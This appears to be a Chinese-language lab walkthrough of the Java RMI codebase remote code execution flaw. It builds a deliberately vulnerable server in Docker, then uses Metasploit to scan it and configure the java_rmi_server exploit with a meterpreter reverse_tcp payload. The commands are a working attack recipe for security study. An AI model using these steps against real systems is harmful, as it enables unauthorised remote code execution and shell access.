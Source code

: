 ### 1、漏洞原理
```shell script
Java Remote Method Invocation 用于在Java中进行远程调用，在满足一定条件的情况下，RMI客户端通过指定
java.rmi.server.codebase 可以让服务端远程加载对象，进而加载远程java字节码执行任意代码
```
### 2、漏洞环境搭建
Dockerfile
```dockerfile
FROM openjdk:8u222-jdk

LABEL maintainer="phithon <root@leavesongs.com>"

ENV RMIIP="127.0.0.1"
COPY src/ /usr/src/
WORKDIR /usr/src

RUN set -ex \
    && javac *.java

EXPOSE 1099
EXPOSE 64000

CMD ["bash", "-c", "java -Djava.rmi.server.hostname=${RMIIP} -Djava.rmi.server.useCodebaseOnly=false -Djava.security.policy=client.policy RemoteRMIServer"]
```
docker-compose.yaml
```yaml
version: '2'
services:
  rmi:
    network_mode: bridge
    build: .
    ports:
      - "1099:1099"
      - "64000:64000"
    environment:
      - RMIIP=127.0.0.1
```
```shell script
docker-compose build 
docker-compose up -d
```
### 3、检查漏洞
```shell script
search java_rmi
use auxiliary/scanner/misc/java_rmi_server
```
### 4、设置检查参数
```shell script
msf6 auxiliary(scanner/misc/java_rmi_server) > set rhosts 172.16.120.252
rhosts => 172.16.120.252
msf6 auxiliary(scanner/misc/java_rmi_server) > options

Module options (auxiliary/scanner/misc/java_rmi_server):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS   172.16.120.252   yes       The target host(s), see https://github.com/rapid7/metasploit-framewo
                                       rk/wiki/Using-Metasploit
   RPORT    1099             yes       The target port (TCP)
   THREADS  1                yes       The number of concurrent threads (max one per host)
```
### 5、开始检查
```shell script
![image](https://github.com/498946975/Security/blob/master/images/java_rmi_1.png)
```
### 6、设置攻击参数
```shell script
msf6 auxiliary(scanner/misc/java_rmi_server) > back 
msf6 > use exploit/multi/misc/java_rmi_server
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf6 exploit(multi/misc/java_rmi_server) >
```
#### 设置payload，和攻击ip
```shell script
set payload java/meterpreter/reverse_tcp
set rhosts  172.16.120.252
```
![image](https://github.com/498946975/Security/blob/master/images/java_rmi_2.png)



